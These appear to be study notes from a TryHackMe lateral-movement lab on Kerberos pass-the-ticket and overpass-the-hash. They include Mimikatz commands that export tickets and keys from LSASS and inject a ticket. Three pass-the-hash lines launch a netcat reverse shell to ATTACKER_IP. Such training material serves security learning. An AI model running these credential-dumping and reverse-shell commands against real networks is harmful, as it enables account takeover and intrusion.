 Sometimes if you have SYSTEM you can extract Kerberos tickets and session keys from LSASS mem

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

Need both ticket and corresponding session key
Mimikatz can extract any TGT or TGS in LSASS mem, but mostly interested in TGTs since they can be used to request access to any services the user is allowed to access. TGS is only good for specific service. Extracting TGT will require admin creds, and extracting TGS can be done with low-priv account (only ones assigned to that account)

With desired ticket, can inject into current session (injecting doesn't require admin privs)
```powershell
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

after this, tickets will be available for any tools we use for lat movement. if they were injected correctly, you can use the klist command

```
C:\ klist
```

#### Overpass-the-hash (RC4) / Pass-the-key

Similar to PtH but applied to Kerberos

Client sends timestamp enc w/ key derived from password (alg to derive can be DES (disabled by default on current Windows), RC4, AES128, AES256, depending on installed win version and kerb config.) to KDC
If we have any of the keys, we can ask KDC for TGT without requiring actual password.

Obtain Kerb enc keys from memory
```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

RC4 Hash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

AES128 Hash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

AES256 Hash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

RC4, key will be equal to NTLM hash of a user. If we can extract NTLM hash, can use it to request TGT as long as RC4 is one of the enabled protocols. (Overpass-the-Hash)

#### Exercise
